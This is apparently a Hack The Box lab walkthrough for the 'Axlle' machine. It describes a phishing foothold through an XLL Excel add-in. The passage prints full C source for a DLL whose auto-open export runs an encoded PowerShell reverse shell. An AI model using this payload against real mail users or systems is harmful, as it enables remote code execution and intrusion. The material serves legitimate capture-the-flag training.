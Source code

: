 > If you have any outstanding invoices or requests, please email them to accounts@axlle.htb in Excel format. Please note that all macros are disabled due to our security posture.

Based on the website, it seems like the initial foothold could be related to email related phishing. 

## Shell as gideon.hamill
### XLL Exec

Through many attempts, we discovered this mail server is vulnerable to [XLL Exec](https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec).


> An XLL (Excel Add-In) execution attack is a type of cyber attack that leverages XLL files to execute malicious code within Microsoft Excel. XLL files are dynamic link libraries (DLLs) specifically designed for use with Excel, allowing developers to extend Excel's functionality with custom functions and features.

First, we will create exploit.c file containing the following content:

```c
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("powershell -e <snipped>pAA==", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

We will copy-paste in the powershell reverse shell code from revshells.com to the above exploit.c.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/axlle/image-3.png)
